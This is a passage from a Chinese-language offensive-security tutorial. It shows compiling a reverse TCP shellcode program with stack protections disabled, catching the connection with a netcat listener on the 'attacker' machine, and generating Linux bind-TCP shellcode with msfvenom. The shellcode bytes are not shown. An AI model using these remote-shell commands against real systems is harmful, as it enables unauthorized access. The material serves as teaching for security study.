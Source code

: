 让我们在受害者机器上编译它：

```
$ gcc -fno-stack-protector -z execstack reverse-tcp-shellcode.c -o reverse-tcp-shellcode
```

然后，在攻击者计算机上设置侦听器：

```
$ nc -lp 1234
```

现在，在受害者计算机上设置侦听器：

```
$ ./reverse-tcp-shellcode
```

上述命令的输出显示在以下屏幕截图中：

![](../images/00222.jpeg)

现在，我们已连接到攻击者的计算机：

![](../images/00223.gif)

我们做到了！

# 使用 Metasploit 生成外壳代码

在这里，事情比你想象的要简单。我们将使用 Metasploit 为具有多个体系结构的多个平台生成外壳代码，并在一个命令中删除坏字符。

我们将使用`msfvenom`命令。让我们使用`msfvenom -h`显示所有选项：

![](../images/00224.gif)

让我们使用`msfvenom -l`列出它的所有有效载荷——这是一个非常大的有效载荷列表：

![](../images/00225.gif)

这只是列表中的一小部分。

让我们来看看我们的输出格式使用

![](../images/00226.jpeg)

让我们尝试在 Linux 上创建绑定 TCP 外壳代码：

```
$ msfvenom -a x64 --platform linux -p linux/x64/shell/bind_tcp -b "\x00" -f c
```

我们在这里所做的很简单：`-a`指定 arch，然后我们将平台指定为 Linux，然后我们将负载选择为`linux/x64/shell/bind_tcp`，然后我们使用`-b`选项删除坏字符`\x00`，最后我们将格式指定为 C。让我们执行以查看：

![](../images/00227.jpeg)

现在，将外壳代码复制到我们的 C 代码：
